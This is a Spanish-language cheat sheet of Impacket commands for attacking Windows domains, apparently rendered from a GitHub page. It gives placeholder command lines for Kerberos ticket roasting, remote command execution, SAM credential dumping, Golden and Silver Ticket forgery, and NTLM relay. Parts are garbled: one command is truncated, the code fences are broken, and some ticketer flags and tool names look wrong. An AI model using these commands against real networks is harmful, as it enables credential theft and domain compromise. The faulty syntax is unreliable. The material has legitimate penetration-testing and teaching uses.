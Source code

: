 ### impacket-GetNPUsers:
Descripción: Extrae tickets TGT (Ticket Granting Ticket) sin necesidad de autenticación de contraseña, utilizando el protocolo Kerberos.
```python
impacket-GetNPUsers DOMAIN/USER -dc-ip <domain_controller_ip>
```
### impacket-psexec:
Descripción: Ejecuta comandos en un sistema remoto utilizando el servicio PsExec.
```python
impacket-psexec.py DOMAIN/USER:PASSWORD@TARGET_HOST CMD.EXE
```
### impacket-rpcdump:
Descripción: Realiza una enumeración de RPC en un host remoto.
```python
impacket-rpcdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-secretsdump:
Descripción: Extrae contraseñas almacenadas en la SAM (Security Accounts Manager) de un sistema Windows.
```python
impacket-secretsdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-GetUserSPNs:
enumerar los SPNs asociados a un usuario específico o a todos los usuarios en un dominio.
```python
impacket-GetUserSPNs.py -request <USER>:<PASSWORD> -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USER>
```
### impacket-GetUserSPNs
Obtención del TGS: Una vez que hayas identificado el SPN deseado, puedes solicitar un TGS para ese SPN utilizando `GetUserSPNs
```python
impacket-GetUserSPNs.py <USER>:<PASSWORD> -spn <SPN_TO_TARGET> -dc-ip <DOMAIN_CONTROL
```
### impacket-ticketer Golden Ticket:
Para solicitar un Golden Ticket con Impacket, puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
```python
impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -des <DESCRIPTOR> -rc4 <RC4_HASH> <USER_NAME>
------------------------------------------------------------------------------------------------------------------------------------------
Donde:    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<DESCRIPTOR>` es el descriptor de seguridad del usuario (opcional).
    - `<RC4_HASH>` es el hash RC4 (opcional).
    - `<USER_NAME>` es el nombre de usuario del usuario.
```
```
### impacket-ticketer Silver Ticket:
Para solicitar un Silver Ticket con Impacket, también puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
```python
impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -spn <SERVICE_SPN> <USER_NAME>
------------------------------------------------------------------------------------------------------------------------------------------
Donde:
    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<SERVICE_SPN>` es el Service Principal Name (SPN) del servicio al que deseas acceder.
    - `<USER_NAME>` es el nombre de usuario del usuario.
```
### impacket-atexec:
Descripción: Permite ejecutar comandos en un sistema remoto utilizando el servicio Task Scheduler (programador de tareas).
```python
impacket-atexec.py DOMAIN/USER:PASSWORD@TARGET_HOST COMMAND
```
### impacket-dpapi:
Descripción: Proporciona herramientas para manipular DPAPI (Data Protection API) en sistemas Windows.
```python
impacket-dpapi.py
```
### impacket-esentutl:
Descripción: Permite interactuar con bases de datos ESENT (Extensible Storage Engine) en sistemas Windows.
```python
impacket-esentutl.py
```
### impacket-getArch:
Descripción: Obtiene la arquitectura del sistema remoto (32 o 64 bits).
```python
impacket-getArch.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlclient:
Descripción: Un cliente interactivo de SQL Server que se puede utilizar para ejecutar consultas SQL y comandos en un sistema remoto que ejecuta SQL Server.
```python
impacket-mssqlclient.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlinstance:
Descripción: Enumera las instancias de SQL Server en un sistema remoto.
```python
impacket-mssqlinstance.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlping:
Descripción: Realiza un ping a un servidor SQL para verificar la disponibilidad.
```python
impacket-mssqlping.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlservice:
Descripción: Enumera los servicios de SQL Server en un sistema remoto.
```python
impacket-mssqlservice.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-ntlmrelayx:
Descripción: Se utiliza para realizar ataques de relé NTLM en redes corporativas.
```python
impacket-ntlmrelayx.py -tf targets.txt
```